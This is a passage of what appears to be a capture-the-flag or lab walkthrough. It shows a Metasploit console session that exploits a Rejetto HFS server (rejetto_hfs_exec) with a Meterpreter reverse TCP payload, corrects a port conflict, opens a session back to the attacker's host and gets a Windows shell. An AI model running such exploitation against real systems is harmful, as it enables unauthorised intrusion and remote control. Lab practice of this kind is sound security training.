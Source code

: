 ```
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.129  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.14.36
LHOST => 10.10.14.36
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
[*] Started reverse TCP handler on 10.10.14.36:4444 
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:8080).
[*] Exploit completed, but no session was created.
msf6 exploit(windows/http/rejetto_hfs_exec) > set SRVPORT 8081
SRVPORT => 8081
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.36:4444 
[*] Using URL: http://0.0.0.0:8081/atxkpZGbxVDyVXT
[*] Local IP: http://192.168.159.129:8081/atxkpZGbxVDyVXT
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /atxkpZGbxVDyVXT
[*] Sending stage (175174 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\DCFfFCwzu.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.14.36:4444 -> 10.10.10.8:49198) at 2021-06-14 09:21:46 -0700
[*] Server stopped.

meterpreter > shell
Process 2040 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
```